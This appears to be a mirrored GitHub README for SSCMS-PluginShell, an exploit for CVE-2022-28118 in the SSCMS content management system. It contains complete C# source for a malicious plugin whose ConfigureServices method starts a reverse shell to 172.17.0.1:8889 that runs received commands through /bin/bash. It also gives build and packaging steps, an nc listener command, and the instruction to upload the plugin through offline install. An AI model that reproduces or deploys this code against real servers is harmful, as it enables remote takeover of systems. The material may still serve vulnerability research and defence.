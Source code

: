 # SSCMS-PluginShell

CVE-2022-28118

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Richard-Tang](https://github.com/Richard-Tang) |
| Url      | [https://github.com/Richard-Tang/SSCMS-PluginShell](https://github.com/Richard-Tang/SSCMS-PluginShell)                                               |
| Stars    | 7                                                          |
| License  | GNU Affero General Public License v3.0                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

1. 安装VisualStudio

2. 导入该项目

3. 修改Startup.cs文件中的`IPAddress.Parse`值

   ```c#
   using Microsoft.Extensions.DependencyInjection;
   using SSCMS.Advertisement.Abstractions;
   using SSCMS.Advertisement.Core;
   using SSCMS.Plugins;
   using System.Diagnostics;
   using System;
   using System.Text;
   using System.Net.Sockets;
   using System.Net;
   using System.Threading;
   
   namespace SSCMS.Advertisement
   {
       public class Startup : IPluginConfigureServices
       {
           
         public void ConfigureServices(IServiceCollection services)
         {
            ThreadStart childref = new ThreadStart(reversShell);
            Thread childThread = new Thread(childref);
            childThread.Start();
            services.AddScoped<IAdvertisementRepository, AdvertisementRepository>();
         }
   
   		public void reversShell()
   		{
   			Socket socketshell = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);
   			IPAddress ip = IPAddress.Parse("172.17.0.1");
   			IPEndPoint point = new IPEndPoint(ip, Convert.ToInt32("8889"));
   			try
   			{
   				socketshell.Connect(point);
   				while (true)
   				{
   					byte[] getdata = new byte[1024 * 5];
   					int n = socketshell.Receive(getdata);
   					string restr = Encoding.Default.GetString(getdata, 0, n);
   					string command = restr;
   					string resultok = willshell(command);
   					byte[] senddata = new byte[1024 * 5];
   					senddata = Encoding.Default.GetBytes(resultok);
   					socketshell.Send(senddata);
   				}
   			}
   			catch
   			{
   				socketshell.Close();
   			}
   		}
   
   		public static string willshell(object command)
   		{
   			Process process = new Process();
   			process.StartInfo.FileName = "/bin/bash";
   			process.StartInfo.UseShellExecute = false;
   			process.StartInfo.RedirectStandardError = true;
   			process.StartInfo.RedirectStandardInput = true;
   			process.StartInfo.RedirectStandardOutput = true;
   			process.StartInfo.CreateNoWindow = true;
   			process.Start();
   			process.StandardInput.WriteLine("echo off");
   			process.StandardInput.WriteLine(command);
   			process.StandardInput.WriteLine("exit");
   			string result = process.StandardOutput.ReadToEnd();
   			return result;
   		}
   	}
   }
   ```

4. 编译项目

5. 将编译后的输出目录打包成Zip包

6. 服务器开启监听

   ```bash
   nc -lvvp 8889
   ```

7. 到系统中进行离线安装上传



## Get the content

```
git clone https://github.com/Richard-Tang/SSCMS-PluginShell
cd SSCMS-PluginShell
```

{% embed url="https://github.com/Richard-Tang/SSCMS-PluginShell" %}

<figure><img src="https://avatars.githubusercontent.com/u/30547741?v=4" alt=""><figcaption><p>Richard-Tang</p></figcaption></figure>
